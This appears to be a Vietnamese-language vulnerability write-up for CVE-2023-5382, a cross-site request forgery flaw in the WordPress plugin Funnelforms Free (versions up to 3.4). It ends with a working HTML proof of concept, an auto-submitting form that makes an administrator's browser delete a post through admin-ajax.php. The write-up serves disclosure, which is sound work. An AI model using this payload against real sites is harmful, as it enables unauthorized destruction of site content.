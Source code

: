 # CVE-2023-5382

- Plugin : Funnelforms Free
- Phiên bản lỗi : <=3.4
- Lỗi : Cross-Site Request Forgery to Arbitrary Post Deletion
- CVSS Score: 6.5 (MEDIUM)
  
![image](https://github.com/Manh130902/wordpress/assets/93723285/443175e8-3e2a-4fc5-98a3-5d5492eeaacc)

# Mô tả

- Plugin Funnelforms Free dành cho WordPress dễ bị tấn công bởi Giả mạo yêu cầu trên nhiều trang web ở các phiên bản lên đến và bao gồm cả 3.4. Điều này là do xác thực nonce bị thiếu hoặc không chính xác trên hàm fnsf_delete_posts. Điều này giúp những kẻ tấn công không được xác thực có thể xóa các bài đăng tùy ý thông qua một yêu cầu giả mạo với điều kiện là chúng có thể lừa quản trị viên trang web thực hiện một hành động chẳng hạn như nhấp vào liên kết.

# POC

- PoC (This will delete the form with ID 1)

```<html>

  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="af2&#95;fnsf&#95;delete&#95;posts" />
      <input type="hidden" name="post&#95;ids&#91;&#93;" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>```




